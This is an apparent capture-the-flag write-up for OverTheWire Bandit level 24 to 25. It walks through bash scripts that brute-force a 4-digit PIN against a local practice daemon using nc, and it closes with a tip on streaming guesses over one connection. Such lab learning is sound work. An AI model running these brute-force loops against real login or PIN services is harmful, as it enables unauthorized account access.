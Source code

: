 # Bandit Level 24 - Level 25

There is a daemon listening on PORT 30002. It accepts the password for Level 24
and a unique 4-digit PIN code. The pin is a number between 0-10000. Which means you're able
to brute force this by generating every possible PIN number. 

I initially started with a script like this: 

```bash
#!/bin/bash

PASSWORD="PASSWORD_FOR_24"
for PIN in $(seq -w 0 9999); do
    echo "trying $PIN"
    RESPONSE=$(echo "$PASSWORD $PIN" | nc localhost 30002)
    if [[ $RESPONSE == *"bandit25"* ]]; then
        echo "FOUND! $RESPONSE"
        break
    fi
done
```

Which didn't actually work. The problem was, that it didn't iterate over to the
next PIN number and instead got stuck on: 

"trying 0000" 

Then I found out that the daemon actually reads everything line by line on a single connection. 

( Apparently most daemons do )

So I could effectively stream all of the attempts at once and it would have no choice
but to look at each line and try the "PASSWORD PIN" combination for every one. 

Something like this one-liner followed: 

```bash
for i in {0000..9999}; do echo "PASSWORD_FOR_24 $i"; done | nc localhost 30002
```

This resulted in a wall of text and finally the output: 

"
Correct!
The password of user bandit25 is PASSWORD_FOR_25
"

Which meant the level was solved. A handy introduction into brute-force. Luckily I had 
experience with programming and I'm very familiar with for-loops. Otherwise I think this
would have been a tricky solve.

# Key lesson 

Many of the daemon networks are line-buffered and expect persisten connections. When brute-forcing
you should avoid opening a new conneciton when the server is stateful. And streaming input through
one connection is actually faster than disconnecting/reconnecting each time. 
